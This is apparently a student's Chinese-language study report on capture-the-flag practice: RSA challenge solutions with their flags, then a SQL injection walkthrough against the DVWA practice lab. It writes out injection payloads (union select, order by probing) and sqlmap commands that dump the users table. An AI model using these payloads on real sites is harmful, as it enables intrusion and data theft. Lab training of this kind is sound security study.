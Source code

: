 # 张心玥学习报告02-1
#学习笔记

##RSA
###Buu
####题目——rsarsa
![](./attachment/2022-03-19-17-00-18.png)
脚本
![](./attachment/2022-03-19-17-00-52.png)
运行结果
![](./attachment/2022-03-19-17-01-14.png)
最后flag为：
Flag{5577446633554466577768879988}

####题目———RSA1
![](./attachment/2022-03-19-17-02-42.png)
脚本
![](./attachment/2022-03-19-17-02-57.png)
运行结果
![](./attachment/2022-03-19-17-05-26.png)
对结果进行十六进制转换
6e6f784354467b57333163306d335f37305f4368316e343730776e7d
![](./attachment/2022-03-19-17-06-09.png)
最后flag为：
Flag{W31c0m3_70_Ch1n470wn}

####题目——RSA2
![](./attachment/2022-03-19-17-07-08.png)
脚本
![](./attachment/2022-03-19-17-07-21.png)
运行结果
![](./attachment/2022-03-19-17-07-50.png)
最后flag为：
flag{wow_leaking_dp_breaks_rsa?_98924743502}

##SQL注入
SQL是用于访问和处理数据库的标准的计算机语言。
显示数据库：show databases
打开数据库：use db_name
显示数据表：show tables
显示表中各字段信息：discribe table_name
显示表创建过程：show create table表名
删除数据库：drop databases 数据库名
清空数据表：delete from table_name
删除数据表：drop table table_name
数据库链接：mysql-uroot-proot
数据库退出：exit
列出当前MYSQL的相关状态信息：status

####DVWA靶场SQL注入LOW
1.手工注入
查看源代码
![](./attachment/2022-03-19-17-10-22.png)
发现没有对id进行限制
输入 1' and 1=1#
![](./attachment/2022-03-19-17-11-21.png)
语句发生变化，在原有语句查询完成后会判断1=1，如果判断正确才会输出
（#的作用是移除后续SQL的语句，将后面可能造成影响的语句删除）

输入 1' and 1=2#
![](./attachment/2022-03-19-17-12-14.png)
语句发生变化，在查询完原有语句后判断1=2，判断正确才会有输出
发现输出，但是1=2为错误语句，所以存在SQL注入漏洞

判断字段数
![](./attachment/2022-03-19-17-12-46.png)
依次输入“1' order by 1#”,” 1' order by 2”,” 1' order by 3”
从三个字段时开始报错
![](./attachment/2022-03-19-17-13-22.png)
所以数据库只存在两列

判断回显
输入 1' union select 1,2#
![](./attachment/2022-03-19-17-15-26.png)

查询当前数据库
输入 1' union select 1,database()#
或
输入 1' union select user(),database()#
![](./attachment/2022-03-19-17-20-48.png)
显示当前数据库为dvwa

2.SQLmap
通过手动注入已知有数据库dvwa
所以输入 
python sqlmap.py -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=jvkp3tq5cugu8emi4liqljfhrf" -D dvwa --tables
查询数据库中的表
![](./attachment/2022-03-19-17-36-14.png)

接着输入
python sqlmap.py -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=jvkp3tq5cugu8emi4liqljfhrf" -D dvwa -T users --dump
查询到
![](./attachment/2022-03-19-17-38-22.png)